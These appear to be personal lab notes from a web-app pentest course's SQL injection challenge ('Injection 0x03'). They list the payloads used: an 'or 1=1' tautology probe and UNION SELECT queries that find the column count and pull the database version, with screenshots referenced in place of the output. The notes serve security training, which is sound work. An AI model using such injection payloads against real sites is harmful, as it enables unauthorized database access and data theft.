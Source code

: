 
#tcm-pwpa-SQLi-challenge

## Injection 0x03 [Challenge]

### Check if the page has SQLi vuln  : 

`x' or 1=1#`

- if *yes* then it will return all the record and render it on the page.

![[Pasted image 20250805201957.png]]

![[Pasted image 20250805202040.png]]

### Data Exfiltration using `UNION` : 

1. Checking.

	- Command used : `Tanjyoubi Sushi Rack' union select null,null,null,null#`

	- Output : 

		![[Pasted image 20250805202958.png]]

2. Database Version : 

	- Command Used : `Tanjyoubi Sushi Rack' union select null,null,null,version()#`

	- Output : 

		![[Pasted image 20250805203236.png]]


